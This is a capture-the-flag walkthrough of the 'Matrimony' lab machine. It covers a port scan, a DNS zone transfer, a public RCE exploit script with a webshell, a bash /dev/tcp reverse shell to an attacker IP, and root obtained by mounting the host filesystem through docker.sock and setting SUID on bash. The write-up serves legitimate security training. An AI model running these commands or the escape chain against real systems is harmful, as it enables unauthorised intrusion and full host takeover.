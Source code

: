 # Matrimony

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 14:46 +08
Nmap scan report for 192.168.201.196
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http
```

DNS is open, so we likely need to find a domain name somewhere.

### DNS Enum

Port 80 just shows us a static site:

<figure><img src="../../../.gitbook/assets/image (2) (8).png" alt=""><figcaption></figcaption></figure>

There wasn't anything interesting about this site, so I went back to DNS. Similar to HTB, some machines from PGP tend to have domain names we just enter into our `/etc/hosts` file. I entered a few like `matrimony.pg`, `matrimony.offsec` and `matrimony.off`.

Then, I tested each domain with `dig` to see which exists. `matrimony.off` reveals the most information:

```
$ dig axfr @192.168.201.196 matrimony.off

; <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.201.196 matrimony.off
; (1 server found)
;; global options: +cmd
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
matrimony.off.          604800  IN      NS      matrimony.off.
matrimony.off.          604800  IN      A       127.0.0.1
matrimony.off.          604800  IN      AAAA    ::1
prod99.matrimony.off.   604800  IN      CNAME   matrimony.off.
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
;; Query time: 164 msec
;; SERVER: 192.168.201.196#53(192.168.201.196) (TCP)
;; WHEN: Sat Jul 15 14:53:15 +08 2023
;; XFR size: 6 records (messages 1, bytes 226)
```

It also finds another subdomain at `prod99`.&#x20;

### Matrimonial Website --> RCE

The `prod99` domain shows us this marriage website:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

I created an account on the website and found that it runs on PHP. I checked around for exploits for 'matrim':

```
$ searchsploit matrim
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
2DayBiz Matrimonial Script - 'smartresult.php' SQL Injecti | php/webapps/14073.txt
2DayBiz Matrimonial Script - SQL Injection                 | php/webapps/14008.txt
2DayBiz Matrimonial Script - SQL Injection / Cross-Site Sc | php/webapps/14047.txt
Advanced Matrimonial Script 2.0.3 - SQL Injection          | php/webapps/41521.txt
Entrepreneur Matrimonial Script - Authentication Bypass    | php/webapps/41046.txt
Hindu Matrimonial Script - Authentication Bypass           | php/webapps/41044.txt
i-Net Solution Matrimonial Script 2.0.3 - 'alert.php' Cros | php/webapps/34252.txt
Matri4Web Matrimony Website Script - Multiple SQL Injectio | php/webapps/46591.txt
Matrimonial Script - SQL Injection                         | php/webapps/42545.txt
Matrimonial Script 2.7 - Authentication Bypass             | php/webapps/42566.txt
Matrimonial Website Script 1.0.2 - SQL Injection           | php/webapps/40416.txt
Matrimonial Website Script 2.1.6 - 'uid' SQL Injection     | php/webapps/43965.txt
Matrimony Script - Cross-Site Request Forgery              | php/webapps/10517.txt
Matrimony Script 2.7 - SQL Injection                       | php/webapps/42496.txt
Multireligion Responsive Matrimonial 4.7.2 - 'succid' SQL  | php/webapps/43299.txt
Multireligion Responsive Matrimonial Script 4.7.1 - SQL In | php/webapps/41530.txt
Muslim Matrimonial Script 3.02 - 'succid' SQL Injection    | php/webapps/43310.txt
Online Matrimonial Project 1.0 - Authenticated Remote Code | php/webapps/49183.py
PHP Matrimonial Script 3.0 - SQL Injection                 | php/webapps/41525.txt
Responsive Matrimonial Script 4.0.1 - SQL Injection        | php/webapps/41533.txt
Zeeways Matrimony CMS - SQL Injection                      | php/webapps/46603.txt
----------------------------------------------------------- ---------------------------------
```

Tons of exploits, and there is one script out of all of them. I tried that first, and it worked:

```
$ python2 49183.py http://prod99.matrimony.off/ test123 test123
___  ___              _  _          _      ______  _____  _____
|  \/  |             (_)| |        | |     | ___ \/  __ \|  ___|                             
| .  . |  __ _  _ __  _ | |_  __ _ | |     | |_/ /| /  \/| |__                               
| |\/| | / _` || '__|| || __|/ _` || |     |    / | |    |  __|                              
| |  | || (_| || |   | || |_| (_| || |     | |\ \ | \__/\| |___                              
\_|  |_/ \__,_||_|   |_| \__|\__,_||_|     \_| \_| \____/\____/                              
                                                                                             
[+] logging...                                                                               
[+] Successfully retrieved user [ID].
[+] Successfully uploaded.
[+] Connecting to webshell...
[+] Successfully connected to webshell.
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
```

From here, we can easily get a reverse shell:

```
$ bash -c 'bash -i >& /dev/tcp/192.168.45.189/21 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (11) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker.Sock --> Root

If we check `ifconfig`, we can find some Docker instanceis running since the IP of this machine is 172.17.0.1:

```
sam@matrimony:/home/sam$ ifconfig                                                            
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255                       
        ether 02:42:58:23:b6:06  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 4172 (4.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 4427 (4.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can `ssh` into 172.17.0.2 as `root`:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We can find the `docker.sock` file in both machines:

```
root@9079b6b2d2fb:/tmp# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

This machine doesn't have `docker`, so we can download the binary itself from our machine. This takes a while. When it's done, we can check the images present:

```
root@9079b6b2d2fb:/tmp# ./docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
<none>       <none>    73aebf20ceb1   14 months ago   223MB
ubuntu       latest    3f4714ee068a   14 months ago   77.8MB
```

We can mount back onto the first image:

```
./docker -H unix:///run/docker.sock run -it -v /:/mnt 73aebf20ceb1 bash
```

<figure><img src="../../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, simply run `chmod u+s /mnt/bin/bash`. Exit the docker container back onto the host machine and run `bash -p`:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
